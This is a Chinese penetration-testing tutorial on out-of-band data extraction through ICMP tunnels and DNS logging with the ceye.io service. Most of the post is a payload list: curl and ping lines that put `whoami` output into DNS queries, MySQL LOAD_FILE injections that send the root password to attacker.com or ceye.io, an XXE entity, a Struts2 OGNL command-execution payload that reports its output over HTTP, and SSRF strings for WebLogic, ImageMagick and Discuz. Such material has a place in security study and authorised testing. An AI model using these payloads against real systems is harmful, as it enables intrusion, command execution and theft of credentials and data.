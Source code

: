 ### 大话带外（out-of-bind）数据

在渗透测试中我们有时候会遇到一种情况，就是你知道有漏洞但是不能回显出来

无论是在任何利用中例如无回显的XXE ，SQL，命令执行等

我们都可以通过带外的一个方法来进行数据的输出



除此之外我们使用SQL注入时，如果使用基于时间，基于布尔等盲注

以为了我们每次字符的猜解都需要发送大量的请求过去

难免不被服务器的防火墙软件检测到



这时，带外通道的隐蔽性这一优势就凸显的出来



而带外通道的建立选择显得就很重要

TCP需要建立连接 并且防火墙都盯着很严格所以放弃

ICMP和DNS当然可以存在带外通道的建立



### 0x00 ICMP实现带外通道

IMCP也就是我们`ping` 命令使用的协议，又叫做控制报文协议。它是一个无连接的协议，用于在IP主机或者路由器中错误检测，可达性检测。



查看IMCP协议我们了解一下IMCP的请求头格式

```
    0                   1                   2                   3
    0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |     Type      |     Code      |          Checksum             |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |           Identifier          |        Sequence Number        |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |     Data ...
   +-+-+-+-+-
```



抓个包观察一下（linux环境中）

在一篇博客中详解了windos和linux之间的差距

https://blog.csdn.net/qq_27446553/article/details/81166980



![1556796594216](C:\Users\Leeport\AppData\Local\Temp\1556796594216.png)

![1556796624468](C:\Users\Leeport\AppData\Local\Temp\1556796624468.png)



从上面的分析不难想到，我们是否可以从data这里把数据给带出来？

那我们的方式确定了，如何实践就是我们需要讨论的。

这里我们有直接使用的工具

`ptunnel   ` 

这种情况需要适用有跳板机的情况

就是存在一个内网主机，一个内网跳板机可以连接公网，一个自己的VPS

 内网主机可以和跳板机相互ping通

我们需要自己的VPS连接内网主机



（其实我觉得这算是ICMP隧道的建立，因为你都拿到了跳板机和内网终端的权限了）





![QQ图片20190503134753](C:\Users\Leeport\Desktop\QQ图片20190503134753.jpg)



其实上面隧道实现的基本条件时需要保障ping命令使用成功





## 0x01 通过dns实现带外通道

其实DNS带外通道源自面试中遇到的一个问题？

当你有一个命令执行的漏洞但是却没有回显，只有命令执行这个功能应该怎么利用？

当时也没有给出很好的答案，于是才决定总结一下带外注入



以上情况我觉得使用DNS是解决的最好途径，因为ICMP隧道的话需要安全` ptunnel` 并且多用于内网穿透

而不是带外的目的



最常用的dns实现带外数据的方法还是通过[ceye平台](http://ceye.io/) 

通过把返回数据放在域名解析中，然后进行一个DNS查询，查看DNS解析记录来获取返回信息



例如一个payload:

(linux)

```
ping `whoami`.ip.port.b182oj.ceye.io
```

在域名查询的过程中服务器首先本地检索是否有这个域名的ip没有转到自己的DNS服务器上查询

然后自己的DNS服务器又转去 ` ceye.io` 这个的dns查询，这个的dns有一个ns记录然后就将把这次域名的解析

转给了属于用户的服务器进行查询，最后我们阅读DNS解析就可以看到带外的数据了

![1556865191418](C:\Users\Leeport\AppData\Local\Temp\1556865191418.png) 

常见的payload如下



### *inux:

```
curl http://ip.port.b182oj.ceye.io/`whoami`
ping `whoami`.ip.port.b182oj.ceye.io
```



### windos:

```
ping %USERNAME%.b182oj.ceye.io
```





### sql:

```
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc'));
```

以下是使用MySQL的函数LOAD_FILE()将系统管理员的密码通过DNS解析机制传输的例子： 

```
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root'  LIMIT 1),'.attacker.com\\foobar'));
```

 

就以sql盲注为例。深入理解下DNSlog注入过程：

首先提一下load_file()函数，

读取文件并返回文件内容为字符串。要使用此函数，文件必须位于服务器主机上，必须指定完整路径的文件，而且必须有FILE权限。该文件所有字节可读，但文件内容必须小于max_allowed_packet。

通过DNSlog盲注需要用到load_file()函数。show variables like '%secure%';查看load_file()可以读取的磁盘。

1、当secure_file_priv为空，就可以读取磁盘的目录。

2、当secure_file_priv为G:\，就可以读取G盘的文件。

3、当secure_file_priv为null，load_file就不能加载文件。

通过设置my.ini来配置。secure_file_priv=""就是可以load_flie任意磁盘的文件。

当我们遇到盲注的时候，大家的常规思路是什么？无非两种，一延时，二基于内容特征。而这两种方法都是一个字符一个字符的判断，效率很低。另外要发送大量的get请求，那么这种行为很容易被目标物理防火墙认定位是黑客行为，最终导致IP被ban。

但有了DNSLOG可就不一样了。当遇到盲注的时候，我们可以用这样的PAYLOAD。

```
load_file(concat('\\\\',(select database()),'.abcdef.ceye.io\\aaa'))
```

 

在这里我们需要了解load_file是可以发送DNS请求的。

所以就等同于访问了database().abcdef.ceye.io，然后我们的ceye平台就会有记录，那么database()是不是就得到了呢？这种方法比逐字判断是要方便很多吧。

接下来注入就是库表列，语句自由组合。

例如 

```
select schema_name from information_schema.schemata limit 0,1
```

 

要注意的是数据很可能不止一行，因此要用limit分次输出。

MySQL的函数LOAD_FILE()读取文件内容并将其作为字符串返回：

```
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc')); 

' and if((select load_file(concat('\\\\',(select database()),'.xxxxx.ceye.io\\abc'))),1,0)-- -+
```



### XXE:

```


<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE root [ 
<!ENTITY % remote SYSTEM "http://ip.port.b182oj.ceye.io/xxe_test"> 
%remote;]> 
<root/>


```





### Struts2:

```
xx.action?redirect:http://ip.port.b182oj.ceye.io/%25{3*4} 

xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://ip.port.b182oj.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
```





### weblogic:

```


xxoo.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http://ip.port.b182oj.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search 


```





### ImageMagick：

```
push graphic-context 
viewbox 0 0 640 480 
fill 'url(http://ip.port.b182oj.ceye.io)' 
pop graphic-context 
```





### Discuz:

```
http://xxx.xxxx.com/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://ip.port.b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo
```



参考链接：

http://www.cnblogs.com/zhaijiahui/p/9160913.html

